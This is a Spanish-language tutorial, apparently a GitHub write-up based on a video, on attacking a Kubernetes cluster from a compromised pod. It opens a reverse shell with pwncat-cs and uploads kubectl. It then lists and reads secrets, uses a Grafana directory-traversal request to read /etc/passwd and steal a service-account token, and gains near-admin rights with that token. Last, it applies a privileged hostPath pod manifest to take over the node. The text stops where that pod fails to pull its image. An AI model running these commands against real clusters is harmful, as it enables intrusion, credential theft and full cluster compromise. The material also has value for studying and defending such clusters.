# Atacar un cluster de Kubernetes: dedes un pod a todo el cluster


 Esta basado en el video : https://www.youtube.com/watch?v=iD_klswHJQs


## Enumeración 

Si hacemos una nmap a una IP que tiene una aplicación que está en un cluster:

```console
$ nmap -v <IP>

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http

```
Obtendremos los puertos 80/443 de la aplicación y probablemente el puerto 22.

## Establecimiento inicial

Suponer que hemos conseguido abrir un shell en el contenedor aprovechando una vulnerabilidad como inyección de OS o de SQL.

Para ello se puede usar netcat pero hay herramientas interesantes como `pwncat-cs`:
```console
$ sudo pip install pwncat-cs

$ pwncat-cs -lp <LPORT>
```

Una vez abierto el shell, probablemente seamos `root` aunque veremos que el conjunto de instrucciones de las que disponemos es bastante limitado dentro del contenedor.

¿Cómo se sabe que estás dendro de un contenedor?

Hay varios indicios:

- Probablemente en habrá un archivo `/.dockerenv`
- El comando `env` tendrá información de diversos compenentes :
   ```
   KUBERNETES_PORT_443_TCP_PROTO=
   KUBERNETES_PORT_443_TCP_ADDR=
   KUBERNETES_SERVICE_HOST=
   KUBERNETES_PORT=
   ...
   GRAFANA_...=
   SYRINGE_...=
   ```


## Instalar kubectl

`kubectl`es la herramienta que permite gestionar un cluster de Kubernetes. Por tanto, es imprescindible para poder ejecurtarlo en el pod comprometido.

Una opción es subirlo al pod desde la maquina atacante con un `upload`, hacerlo accesible con un servidor web, ...

```console
cd /tmp

pwncat$ upload ./kubectl

chmod +x ./kubectl

```

Una vez disponemos de `kubectl` podemos comenzar a lanzar comandos contra el cluster de kubernetes.

Lo primero que podemos hacer es ver qué podemos hacer en  el clúster. Para ello, el siguiente comando nos dará esa respuesta
```console

$ ./kubectl auth can-i --list 

...
secrets []     []       [get list]
   [/openapi]  []       [get]       
    [/version] []       [get]      
...
```

Lo más interesante es que `secrets` son accesibles:
```console

$ ./kubectl get secrets

default-token-xxxxx   kubernetes.io/service-account-token    3  24d
developer-token-yyy   kubernetes.io/service-account-token    3  24d
   
...
```
Para ver el contenido de un  `secrets` se puede usar:

```console
$ ./kubectl get secrets developer-token-yyy -o json

{
   data:{
      ...
   }
}
...
```

Probablemente no tengamos permisos para ver otros pods que estén en ejecución:

```console
$ ./kubectl get pods
Error from server (Forbidden): ...
```

```console
$ curl -vvv http://grafana:3000 


$ curl -L http://grafana:3000 

```
Como conocemos que puede haber otros servicios ejecutando en el clúster (ver los resultados del comando `env`) intentamos conectar a esos servicios conociendo la IP y el puerto:

```console
$ curl -vvv http://grafana:3000 


$ curl -L http://grafana:3000 

```

Y buscar versiones vulnerables en alguno de los servicios. Por ejemplo, Grafana 8.3.0 que es vulnerable a Directory Traversal y es posible leer cualquier archivo (https://www.exploit-db.com/exploits/50581).

```console
$ curl --path-as-is http://grafana:3000/public/plugings/logs/../../../../../../../../../../../../../../etc/passwd 


```

El objetivo es obtener más `secrets`. Si buscamos en el pod comprometido vemos dónde pueden estar estos `secrets`, concretamente el token de acceso (JWT):

```console
$ cd /var/run/secrets/kubernetes.io/serviceaccount
$ ls
ca.crt   namespace   token
$ cat token
ey .....Xw
```
Por tanto, buscamos en el pod grafana el token de acceso:
```console
$ curl --path-as-is http://grafana:3000/public/plugings/logs/../../../../../../../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token 

ey...rQ

$ export TOKEN = 'ey...rQ'
```
A continuación, usamos ese token para acceder a ver qué permisos tenemos con él:
```console

$ ./kubectl auth can-i --list --token=$TOKEN

*.*   []     [*]       []
...
```

Prácticamente, ya somos administradores del cluster, pues ya es posible hacer casi cualquier cosa.
```console

$ ./kubectl get pods --token=$TOKEN

grafana-123445566-xxxx    1/1      Running       2      24d
...
```

Ahora ya es posible que podamos iniciar un pod en el cluster. Uno que puede ser interesante es 'Bishop Fox' que se encuentra en una colección de Bad Pods para permitir escalado de privilegios (https://bishopfox.com/blog/kubernetes-pod-privilege-escalation).

Elegimos uno de ellos que nos permita acceso a todos los elementos del cluster. Lo más importante de esta especificación es la parte en la que monta el volumen en '/host':

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNot>Present # añadir para que se descargue
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
Subimos este archivo al pod para poder aplicarlos.

```console

pwncat$ upload ./privscal.yaml


$ ./kubectl apply -f privscal.yaml --token=$TOKEN
pod created
```
Sin embargo, el pod no se está ejecutando porque no se puede descargar la imagen puesto que no se tiene acceso a internet para acceder al registro. 
```console
$ ./kubectl describe pod everything-allowed-exec-pod  --token=$TOKEN
...
Failed to pull image "ubuntu" ...
...
```




















